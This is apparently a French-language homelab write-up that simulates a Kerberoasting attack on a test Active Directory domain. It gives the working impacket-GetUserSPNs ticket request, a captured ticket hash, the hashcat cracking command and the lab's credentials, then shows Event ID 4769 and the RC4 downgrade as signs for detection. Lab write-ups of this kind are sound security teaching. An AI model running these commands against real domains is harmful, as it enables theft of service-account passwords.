






Kerberoasting
Kerberoasting c'est une technique d'attaque utilisée dans les environnements Windows Domain. Elle consiste à extraire les tickets Kerberos des comptes de service et les déchiffrer pour obtenir les mots de passe en clair.
Le but de cette technique est de permettre à un attaquant d'obtenir les mots de passe en clair de comptes de service, ce qui peut lui donner un accès privilégié au système.
Pour effectuer un Kerberoasting, un attaquant doit d'abord obtenir un ticket Kerberos pour un compte de service. Cela peut être fait en utilisant des outils tels que Mimikatz ou Rubeus ou encore Impacket ici utilisé. Une fois que l'attaquant a le ticket, il peut l'extraire et le déchiffrer pour obtenir le mot de passe en clair du compte de service.
Simulation (HomeLab)
Dans mon HomeLab, j'ai simulé un Kerberoasting en utilisant un compte de service nommé "svc_sql". J'ai utilisé l'outil Rubeus pour obtenir le ticket Kerberos pour ce compte et l'extraire. Ensuite, j'ai utilisé un outil de déchiffrement hashcat pour obtenir le mot de passe en clair du compte de service.
Composition du HomeLab
- VirtualBox comme hyperviseur type 2
- Une VM Windows Server 2019 téléchargée via Microsoft
- Un domaine Active Directory nommé "lab.local"
- Un utilisateur nommé "john.dupont" avec le mot de passe "Start123!"
- Un compte de service nommé "svc_sql" défini svc_sql:Soleil2026! (mot de passe simple pour l'exécution de cette attaque)
- Une VM Kali Linux (attaqueur) téléchargée via kali.org
- Outils utilisés : Impacket, hashcat
IP VM Windows Server 2019 : 192.168.10.10/24 et IP VM Kali Linux : 192.168.10.20/24
Étapes de la simulation sur Windows Server 2019
- Création du Contrôleur de Domaine (AD DS) avec la forêt correspondante "lab.local:Admin2026!".
- Création de l'utilisateur "john.dupont:Start123!".
- Création du compte de service "svc_sql:Soleil2026!" avec un mot de passe simple à casser.
- Création d'un SPN (Service Principal Name) pour le service "svc_sql".



Avec la commande suivante depuis l'invite de commande en tant que Administrateur:
C:\Windows\System32> setspn -S MSSQLSvc/lab.local:1433 svc_sqlÉtapes de la simulation sur Kali Linux
- Récupération des tickets Kerberos pour le compte de service "svc_sql" avec impacket-GetUserSPNs.
- lab.local : nom du domaine
- svc_sql : nom du compte de service
- Start123! : mot de passe du compte de service
- -dc-ip : adresse IP du contrôleur de domaine
- -request : option pour demander un ticket Kerberos
- -outputfile : option pour spécifier le nom du fichier de sortie
- Déchiffrer le hash avec Hashcat
kali@kali:~$ impacket-GetUserSPNs lab.local/svc_sql:Start123! -dc-ip 192.168.10.10 -request -outputfile hashes.txtCette commande va générer un fichier nommé "hashes.txt" contenant les tickets Kerberos pour le compte de service "svc_sql". Impacket tentent souvent de rétrograder le chiffrement vers du RC4 (code 0x17) car il est beaucoup plus facile et rapide à casser avec Hashcat que les chiffrements modernes par défaut comme l'AES-256 (code 0x12).
Le hash généré est le suivant : a756ccc019a1e8a19248daadae4a1242$db33fe721165616751a0e770148557b38f21caa477c6d6cb94ad45cb78796de19f2d188298a2043391e003c63a6760d6a75205b41c691819fcc8f0bac736d0089ff9b1eb2eb6d19a445283ea80923ba9fffbc9c8a6488e557a7817124c8d4d87cee7eb099a0b76f1e947ca921c928936b66b3328ea1efc8e939884290261a4589b36311395aba7a1943979c7f240576ecc9c5368f86bf98806eb3444a431d178e6fac344fec5cf13d8b962fcb0711dd249cd92feb4c942de00079aa04ebd8c61567a94ae412e4526d187c2f143d605eaedd3203a3c14c5c6253d1745f1beea907b1dd4fd8c5a8712b38c9d43ff6f37df4fe8b871a34190e69db45fac01c901cb9d1538115d647e7fa9bcd29da09c63403654f868a86c66f69ba36ea8d6ea6a92c93cf391b56c093d120ff536002763aaa7f6a06adf474cbd1719fd8bdfb52789466b4aebfa6cbb39e9094abdc04418f68ed4831f43ce67f38125feec3ff0e23e485ca37e272c6e29f43cb236eb54cfdcde43045e8d25e4a791d39c8f0a5cf8469d4a97f38f625e054b02cce5ccb061709763069e8bf88cd9222ef0f9be8b87284d98e273087487a7049c5285dbb456cc475282738d74c5f1839b8a1c79c7be93fc5e1dc9d120215c6e8690c15c5c82b56a9d47b16c78b359deae6b366b11aa97810ab2e43727193e2b0a63546e9e5fdfaed9e0d456d909eb6c930f5f74c6271276359545289a27fb856638e1c063a1cf1adfa21c8bbd5fc30690e442ede486d6a87516a77c1d92cbced9c9b87e40b7a3d4fc10668828f5e3633e6f079e5da25c4e80c60dd63e6a7aa02a75facf59dc23f860197645b90461008b27d9c41e76248d340f69744a385722c9901c86375f99a3a20a04fbe6ffbd3a80b069589e4c36637d7257f5818a8b68e427cf16c289d5ab4610a4d2d5a2f8630514ed419285051a800ce8cb23a69045d1458ee04636de8e174f7b81b2c112329fc69b7419babd864b3bde06798cfc5ab444bcb7b3addeb4c1c972c804f63dcec32f0722e504e2835a8b21f9b9b610b67266fe38882687e26aeedfa890da0bf150feadc9b0f71f05dd370a7b319da1f5c88c43675936a40df3d6ff464740e6cf7a17fd45d1a5e5b48042682707b4e817a385aa5d93656443139634b4f30c5b17f198a54c1c968c1e89d29815217ffc7dd2ddc18dcb264037f2db21ca37ee62c4bc8b42e96d1b4f124e54e99da152128621be97eeb4780fb3da5cd8afd599f04c04fe45f6739c9275414e24f37dad0dfed0faa3e58720d6730dd8207fa27f3a25ae24f280c7012bae8fdde81e508f23e73e1b29df91ce1d6eda22851fafd0f04abc332767213b33f832c931b22b681d8437276847c6c37b1d3959ea4c8d806b0bc54e8fb7615e8d3f8d61106f0e1750e3781ee21a2d8a47c40a26a99589f424152c6574585f9c37cc621d4d9e1ba61e58dad919bb032edf556d09d39ba9542d139c029a773ad3696c9365fa190842690dcd61b389a38c6e851f2310c8b219081d10049d08f3347e219c66281d
kali@kali:~$ hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txtJ'ai ajouté le mot de passe Soleil2026! dans le dictionnaire de mots de passe rockyou.txt dans le dossier /usr/share/wordlists/ avec nano.
Ici la ligne :
Recovered........: 1/1
Et VOILA, nous avons obtenu le mot de passe du service !
Analyse de l'attaque
Nous pouvons voir la demande de requête du ticket Kerberos depuis Observateur d'Événement (Event View) du Windows Server 2019, avec l'ID EVENT : 4769 (ici assez simple car moins de logs qu'en réealité):

Comme vous pouvez le voir, nous obtenons:
- Le nom du compte de service : svc_sql
- Le nom du domaine : lab.local
- L'adresse IP de l'attaquant : IpAdress ::ffff:192.168.10.20
- Et bien sûr, TicketEncryptionType 0x17 (RC4) qui n'est plus 0x12 (AES-256) vous pouvez le constater sur l'image ci-dessous :

Conclusion
Le Kerberoasting est une technique d'attaque puissante qui peut être utilisée pour obtenir les mots de passe en clair des comptes de service dans les environnements Windows Domain. Il est important de mettre en place des mesures de sécurité pour protéger les comptes de service et les tickets Kerberos, telles que l'utilisation de mots de passe forts et la surveillance des journaux d'événements pour détecter toute activité suspecte.